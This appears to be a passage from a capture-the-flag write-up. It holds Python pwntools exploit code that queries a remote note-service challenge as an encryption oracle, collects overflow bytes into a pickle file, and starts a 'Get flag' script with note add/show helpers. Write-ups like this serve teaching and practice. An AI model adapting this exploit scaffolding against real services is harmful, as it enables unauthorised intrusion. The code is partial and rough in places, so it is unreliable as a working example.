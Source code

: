 ```python
    r.read_until(b'index:')
    r.read_until(b'index:')
    res = None
    try:
        l = rline()
        res = codecs.decode(l, 'hex')
    except:
        print(l)
        raise
    r.write(b'3\n') # Remove note
    r.write(b'3\n') # index
    r.read_until(b'index:')
    return res

enciv = rawenc(b'\0' * 17)[:16]

def enc(s):
    s = b'\0' * 16 + xor(enciv, s[:16]) + s[16:]
    return rawenc(s)[16:]

i = 1
arr = []
with open('o.pkl', 'rb') as f:
    arr = pickle.load(f)
for i in trange(len(arr), 300):
    plain = i.to_bytes(16, 'big')
    plain += b'\x10' * 16 + b'\x10'
    overflow = enc(plain)[:32][-4:]
    arr.append(tohex(overflow).decode('ascii'))
    with open('o.pkl', 'wb') as f:
        pickle.dump(arr, f)
# for i in trange(0, 300, desc='checking'):
    # plain = i.to_bytes(16, 'big')
    # plain += b'\x10' * 16 + b'\x10'
    # overflow = enc(plain)[:32][-4:]
    # assert(arr[i] == tohex(overflow).decode('ascii'))
print(arr)
# r.interact()

```
* Get flag

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from Crypto.Cipher import AES
import pickle

#f = open('pickle', 'wb')
a = []
r = remote('52.194.203.194', 21700)

def add(idx, typ, sz, data):
    r.sendlineafter('exit', '1')
    r.sendlineafter('index:', str(idx))
    r.sendlineafter('type:', str(typ))
    r.sendlineafter('size:', str(sz))
    r.sendafter('Note:', data)

def show(idx):
    r.sendlineafter('exit', '2')
    r.sendlineafter('index:', str(idx))
```